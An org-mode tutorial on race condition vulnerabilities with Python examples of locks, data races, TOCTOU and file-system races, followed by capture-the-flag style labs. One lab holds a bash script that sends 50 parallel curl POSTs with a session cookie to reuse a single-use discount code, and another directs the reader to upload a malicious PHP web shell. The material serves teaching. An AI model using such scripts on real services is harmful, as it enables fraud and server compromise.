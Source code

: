 #+title: Race Conditions
#+author: gabriel

* intro
A Race Condition occurs when multiple threads or processes simultaneously access and modify the same data or resource in a system. In this situation, threads or processes can unexpectedly affect each other's actions, leading to unforeseen and undesirable results.

For instance, in a banking application, a race condition can arise when two customers simultaneously try to send money to another bank customer.

[[./imgs/race.png]]

In the image above, a single-use promotion code worth $20 is exploited three times due to a race condition vulnerability.

** importance and impacts
Race Condition vulnerabilities cause the system to behave in unexpected ways, leading to various security issues. These issues typically manifest as:

*data inconsistency* ->
when a piece of data is accessed or updated simultaneosuly by multiple threads, it can end up in an unexpected or inconsistent state.

*unauthorized access* ->
Poor synchronization between operations can lead to unauthorized users accessing sensitive data.

*service interruption* ->
Unexpected use of system resources can result in service disruptions and performance degradation.

These impacts can compromise both the reliability and security of the application. Therefore, understanding and preventing race condition vulnerabilities is crucial for developing secure and reliable software.

* concurrency and threading
Concurrency is the ability of a program to execute multiple tasks or processes simultaneously. This is usually achieved using multiple threads or processes.

Threads are lightweight processing units used to run different parts of a program in parallel.

Concurrency and threading are used to enhance the performance and efficiency of systems. However, if not managed correctly, these advantages can lead to serious vulnerabilities, especially during resource sharing.

** basics concepts

*** The role of timing ->
A race condition occurs in situations where operations need to be executed in a certain order and within a specific time interval. Proper timing between operations ensures that data is processed correctly.

*** Critical sections ->
A critical section is a part of code or data region that can only be accessed by one thread or process at a time. Managing critical sections is crucial to prevent race conditions.

*** synchronization ->
Synchronization involves techniques used to ensure that multiple threads or processes operate in a specific order and within a particular time frame.

*mutex (mutual exclusion)*  ->
 Prevents multiple threads from accessing the critical section simultaneously. When one thread enters the critical section, other threads wait.
#+begin_src python
import threading

balance = 100
lock = threading.Lock()

def withdraw(amount):
    global balance
    # Acquire the lock before entering the critical section
    with lock:
        if balance >= amount:
            balance -= amount
            print(f"Withdrawn {amount}, new balance: {balance}")
        else:
            print("Insufficient balance")

# Create multiple threads
threads = []
for _ in range(5):
    t = threading.Thread(target=withdraw, args=(50,))
    threads.append(t)
    t.start()

# Wait for all threads to complete
for t in threads:
    t.join()
#+end_src

*semaphore* ->
Allows a certain number of threads to access the critical section simultaneously.
#+begin_src python
import threading

# Semaphore allows up to 2 threads to enter the critical section
semaphore = threading.Semaphore(2)

def access_critical_section():
    # Acquire the semaphore before entering the critical section
    with semaphore:
        print("Accessing critical section")
        # Critical section code

# Create multiple threads
threads = []
for _ in range(5):
    t = threading.Thread(target=access_critical_section)
    threads.append(t)
    t.start()

# Wait for all threads to complete
for t in threads:
    t.join()
#+end_src

*event* ->
Used to send signals between threads. One thread waits for another thread to reach a certain condition.
#+begin_src python
import threading

event = threading.Event()

def wait_for_event():
    print("Waiting for event")
    # Wait until the event is set
    event.wait()
    print("Event occurred")

def set_event():
    print("Setting event")
    # Set the event to notify waiting threads
    event.set()

# Create and start threads
t1 = threading.Thread(target=wait_for_event)
t2 = threading.Thread(target=set_event)

t1.start()
t2.start()

# Wait for both threads to complete
t1.join()
t2.join()
#+end_src

These basic concepts and synchronization techniques are crucial for understanding and preventing race conditions. Mismanaged race conditions can compromise the security and correctness of systems.


Therefore, having in-depth knowledge of concurrency and threading, and employing appropriate synchronization techniques, is essential for developing secure and reliable software.

* types of race condition
Race condition vulnerabilities can manifest in various forms, each with its own distinct characteristics and consequences.

In this section, we will explore common types of race conditions: Data Race, Time-of-Check to Time-of-Use (TOCTOU), File System Race Conditions, and Memory Race Conditions.

*example* ->
Consider two threads incrementing a shared counter. Without proper synchronization, the counter's value may be different from what is expected.
#+begin_src python
import threading

counter = 0

def increment():
    global counter
    for _ in range(100000):
        counter += 1

threads = []
for _ in range(2):
    t = threading.Thread(target=increment)
    threads.append(t)
    t.start()

for t in threads:
    t.join()

print(f"Final counter value: {counter}")
#+end_src

In this example, the expected final value is 200000, but due to the data race, the result may vary.

** Time-of-check to Time-of-use (TOCTOU)
TOCTOU vulnerabilities occur when a resource is checked for a condition (time-of-check) and then used based on that condition (time-of-use).If the state of the resource changes between these two events, it can lead to security vulnerabilities.

*example* ->
Consider a system that checks whether a user has permission to perform a certain operation. If the user's permissions change between the check and the operation, unauthorized actions could be performed.
#+begin_src python
import threading
import time

class User:
    def __init__(self, user_id, is_admin):
        self.user_id = user_id
        self.is_admin = is_admin

    def set_admin(self, is_admin):
        self.is_admin = is_admin

def check_permission_and_execute(user):
    # Check if user is admin
    if user.is_admin:
        # Simulate delay
        time.sleep(1)
        # Execute admin task
        print(f"User {user.user_id} performed an admin task")
    else:
        print(f"User {user.user_id} is not authorized")

# Example usage
user = User(1, True)

# Create threads
threads = []
threads.append(threading.Thread(target=check_permission_and_execute, args=(user,)))

# Change user permission during the check
threads.append(threading.Thread(target=user.set_admin, args=(False,)))

# Start threads
for t in threads:
    t.start()

# Wait for all threads to complete
for t in threads:
    t.join()
#+end_src

This code demonstrates a TOCTOU vulnerability in a system that checks a user's permission and then performs an admin task.

** File system race conditions
This code demonstrates a TOCTOU vulnerability in a system that checks a user's permission and then performs an admin task.

*example* ->
Two processes attempting to create the same file can lead to inconsistent states or errors.
#+begin_src python
import os
import threading

def create_file(filepath):
    if not os.path.exists(filepath):
        with open(filepath, 'w') as file:
            file.write("Hello, world!")

threads = []
filepath = "/tmp/racefile"
for _ in range(2):
    t = threading.Thread(target=create_file, args=(filepath,))
    threads.append(t)
    t.start()

for t in threads:
    t.join()
#+end_src

In this example, both threads check for the file's existence and then attempt to create it, leading to a race condition.

** Memory race conditions
Memory Race Conditions occur when multiple threads access and modify shared memory without proper synchronization.

This can lead to lost updates, data corruption, and unpredictable behavior—even on CPython, where the Global Interpreter Lock (GIL) does not make compound read-modify-write operations atomic.

*example* ->
Two threads incrementing a shared counter without proper locking mechanisms.
#+begin_src python
import threading

counter = 0

def increment():
    global counter
    for _ in range(100_000):
        counter += 1  # Not atomic: read -> modify -> write

threads = []
for _ in range(2):
    t = threading.Thread(target=increment)
    threads.append(t)
    t.start()

for t in threads:
    t.join()

print(f"Final counter value: {counter}")
#+end_src

Without proper synchronization, the final counter value may be less than the expected 200000 due to lost updates.

* discount code lab
This lab contains a vulnerability that allows a discount code to exceed its redemption limit, allowing a ticket to be purchased at a lower cost.

Your starting balance is not enough to purchase the ticket. To complete the lab, use the discount code, which only has a one-time use limit, multiple times to make the ticket price affordable for your balance.

What is the order number that appears after ticket purchase?

*script to multiple requests with curl command* ->
#+begin_src sh
#!/bin/bash

# Defina a URL e os dados da requisição
URL="http://onlineticket.hv/"
DATA="code=CODE50&useDiscountCode="
COOKIE="PHPSESSID=1eg0vrd3obn6l5tepcs78dt9u0" # Substitua pelo seu próprio cookie de sessão

# Laço de repetição para enviar 50 requisições
for i in {1..50}; do
  curl -s -X POST \
       -H "Content-Type: application/x-www-form-urlencoded" \
       -H "Cookie: $COOKIE" \
       -d "$DATA" \
       "$URL" &
done

# Aguarda todos os processos em segundo plano terminarem
wait

echo "Ataque de Race Condition concluído."
#+end_src

* web shell upload lab
This lab contains a vulnerability that leads to a malicious file upload. The sample application has the functionality to upload images, but a vulnerability occurs when checking the uploaded image.

To complete the lab, upload a malicious PHP script and see if you can execute commands on the server.

What is the hostname address of the server where the website is running?
